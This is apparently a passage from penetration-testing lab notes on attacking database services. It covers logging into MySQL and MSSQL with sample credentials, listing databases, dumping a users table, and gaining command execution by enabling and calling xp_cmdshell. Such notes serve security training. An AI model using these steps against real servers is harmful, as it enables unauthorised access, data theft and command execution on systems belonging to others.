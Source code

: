   ```sh
  # if Windows Authentication mode is being used - for mssqlsvc account, for example
  # then we need to specify domain name or hostname of target
  # for mssqlclient, we can use the '-windows-auth' switch

  sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
  # in this case, we are targeting a local account
  ```

* Interacting with MySQL:

  ```sh
  mysql -u julio -pPassword123 -h 10.129.20.13

  SHOW DATABASES;

  USE htbusers;

  SHOW TABLES;

  SELECT * FROM users;
  ```

* Interacting with MSSQL:

  ```sh
  # in Windows using sqlcmd
  sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30

  # we need to use 'GO' after query to execute
  SELECT name FROM master.dbo.sysdatabases
  GO

  USE htbusers
  GO

  SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES
  GO

  SELECT * FROM users
  GO
  ```

* RCE from MSSQL:

  ```sh
  # if 'xp_cmdshell' is enabled, we can get command execution
  xp_cmdshell 'whoami'
  GO

  # if 'xp_cmdshell' is not enabled and we have the required privileges, we can enable it
  EXECUTE sp_configure 'show advanced options', 1
  GO
  RECONFIGURE
  GO
  EXECUTE sp_configure 'xp_cmdshell', 1
  GO
  RECONFIGURE
  GO
  ```
